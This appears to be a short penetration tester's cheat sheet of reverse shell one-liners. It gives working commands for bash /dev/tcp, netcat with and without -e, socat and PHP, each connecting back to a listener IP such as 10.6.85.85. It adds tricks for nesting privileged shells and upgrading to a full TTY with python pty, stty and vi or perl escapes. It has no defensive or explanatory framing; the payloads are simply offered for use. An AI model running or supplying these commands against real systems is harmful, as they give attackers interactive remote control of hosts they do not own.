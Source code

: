 ## Web shells 

## Reverse shell commands  
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):  

    nc -e /bin/sh 172.16.5.1 4242   
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f     
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            

   php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
   
Also Ruby, Java and Python: Reverse shells cheat sheet    

Nesting shells      

  bash -p    /bin/sh -p 


Upgrading to a pseudo terminal / tty     

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";'
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
